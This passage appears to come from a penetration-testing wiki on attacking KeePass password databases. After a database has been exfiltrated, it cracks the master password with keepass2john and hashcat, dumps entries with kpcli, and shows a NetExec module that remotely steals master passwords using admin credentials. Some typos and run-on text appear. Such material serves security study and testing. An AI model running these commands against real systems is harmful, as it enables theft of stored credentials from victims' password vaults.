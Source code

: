 One we exfiltrate the database to our attacking computer, we can start by using [keepass2john](https://gist.github.com/scottlinux/f6cb8b1bb7807e89c09c139064f69881) and save the output hase a crackable hash.

```bash
keepass2john keepass.kdbx > keepass.hash
```

Then, we may crack the master password using hashcat. See [this page](../passwd/brute-force/offline-password-cracking.md) for more details about cracking passwords.

```bash
hashcat -a 0 -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt --user
```

Now, we can open the database using [kpcli](https://github.com/rebkwok/kpcli) and dump passwords

<pre class="language-bash"><code class="lang-bash">$ kpcli --kdb=db.kdbx
Provide the master password: *************************
<strong>kpcli:/> dir
</strong>=== Groups ===
Database/

<strong>kpcli:/> cd Database
</strong><strong>kpcli:/Database> dir
</strong>=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Windows/
=== Entries ===
0. Sample Entry                                               keepass.info
1. Sample Entry #2                          keepass.info/help/kb/testform.
2. User Company Password

<strong>kpcli:/Database> show -f 0
</strong>Title: Sample Entry
Uname: User Name
 Pass: Password
  URL: https://keepass.info/
Notes: NotesCracking Master Password - NetExec

NetExec
 (Python) can be used to remotly check if keepass is installed on the target computer and then steal the master password and decrypt the database !
nxc smb &#x3C;TARGETS> -u &#x3C;ADMIN_ACCOUNT> -p &#x3C;PASSWORD> -M keepass_discover
</code></pre>
{% endtab %}
{% endtabs %}

### Extract Passphrase from Memory - CVE-2023-32784 <a href="#extract-passphrase-from-memory" id="extract-passphrase-from-memory"></a>
